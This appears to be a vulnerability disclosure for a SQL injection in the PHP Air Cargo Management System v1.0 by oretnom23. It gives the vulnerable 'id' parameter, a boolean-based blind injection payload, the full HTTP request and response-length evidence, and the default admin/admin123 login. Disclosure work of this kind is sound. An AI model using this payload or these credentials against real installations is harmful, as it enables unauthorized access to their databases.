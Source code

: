 # Air Cargo Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/admin/cargo_types/view_cargo_type.php?id=

Vulnerability location: /acms/admin/cargo_types/view_cargo_type.php?id=,id

[+] Payload: /acms/admin/cargo_types/view_cargo_type.php?id=2%27%20and%20length(database())%20=7%20--+ // Leak place ---> id

Current database name: acms_db,length is 7

```sql
GET /acms/admin/cargo_types/view_cargo_type.php?id=2%27%20and%20length(database())%20=7%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=aaffvur9cmo069649rorqsbmeh
Connection: close
```

When length (database ()) = 6, Content-Length: 1161
![image](https://user-images.githubusercontent.com/54017627/166405454-296b1140-3181-4ac2-9bcc-d301da4e4766.png)

![image](https://user-images.githubusercontent.com/54017627/166405488-ac55938d-66be-40ad-91c1-bc696860be6c.png)

When length (database ()) = 7, Content-Length: 1043
![image](https://user-images.githubusercontent.com/54017627/166405435-c5b8fa04-6df0-4d96-b2c3-396f357467c4.png)

![image](https://user-images.githubusercontent.com/54017627/166405473-28b09c7d-3c62-46fa-98b5-1aef5a1c6df8.png)
